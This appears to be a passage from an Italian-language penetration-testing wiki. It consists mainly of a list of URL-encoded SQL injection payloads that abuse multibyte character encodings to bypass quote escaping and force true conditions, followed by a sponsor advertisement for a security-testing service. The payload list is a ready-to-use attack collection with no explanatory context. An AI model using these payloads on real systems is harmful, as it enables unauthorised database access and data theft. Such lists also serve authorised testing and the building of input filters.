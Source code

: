 ```
%8C%A8%27 Or 1-- 2
%bf' Or 1-- 2
%A8%27Or(1)-- 2
%8C%A8%27Or(1)-- 2
%bf'Or(1)-- 2
%A8%27||1-- 2
%8C%A8%27||1-- 2
%bf'||1-- 2
%A8%27) Or 1=1-- 2
%8C%A8%27) Or 1=1-- 2
%bf') Or 1=1 -- 2
%A8%27) Or 1-- 2
%8C%A8%27) Or 1-- 2
%bf') Or 1-- 2
%A8%27)Or(1)-- 2
%8C%A8%27)Or(1)-- 2
%bf')Or(1)-- 2
%A8%27)||1-- 2
%8C%A8%27)||1-- 2
%bf')||1-- 2
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Ottieni la prospettiva di un hacker sulle tue app web, rete e cloud

**Trova e segnala vulnerabilità critiche ed exploitabili con un reale impatto sul business.** Usa i nostri oltre 20 strumenti personalizzati per mappare la superficie di attacco, trovare problemi di sicurezza che ti permettano di elevare i privilegi e utilizzare exploit automatizzati per raccogliere prove essenziali, trasformando il tuo duro lavoro in report persuasivi.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}
